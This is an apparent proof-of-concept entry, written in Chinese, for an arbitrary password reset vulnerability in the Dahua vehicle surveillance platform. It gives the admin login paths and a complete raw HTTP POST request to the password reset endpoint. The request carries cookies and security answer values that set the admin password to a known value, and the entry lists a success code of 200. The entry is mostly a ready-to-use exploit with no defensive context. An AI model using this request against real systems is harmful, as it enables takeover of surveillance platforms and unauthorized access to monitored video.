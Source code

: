 ﻿# 大华车载监控平台任意密码重置漏洞

> 更新时间：2023-12-20

> 漏洞编号：

> 漏洞说明：登录口 https://x.x.x.x/admin/login_login.action https://x.x.x.x/config/user_toLoginPage.action 账号密码修改为 admin Aa112233

> 漏洞特征：

> 验证脚本：HTTP

```
POST /config/user_passwordReset.action?nowTime=1662449299721 HTTP/1.1
Connection: close
Accept: text/plain, */*; q=0.01
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=8EFCAC96D2EEF42CA0F7ACA18C491016; random=7j0fstzufuu; JSESSIONID=A6683C873CB8549B04A50677BE1BA39A

userBean.loginName=admin&userBean.loginPass=%24D%24S%24S%240778d46eadf8a31cb00ce8d1be64e12e&userBean.questionNumber1=6&userBean.questionAnswer1=1d0383dcf3670a5ea80b017382d66623&userBean.questionNumber2=1&userBean.questionAnswer2=1d0383dcf3670a5ea80b017382d66623&userBean.questionNumber3=7&userBean.questionAnswer3=1d0383dcf3670a5ea80b017382d66623
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：


> 验证文件来源：大华车载监控平台任意密码重置漏洞.poc
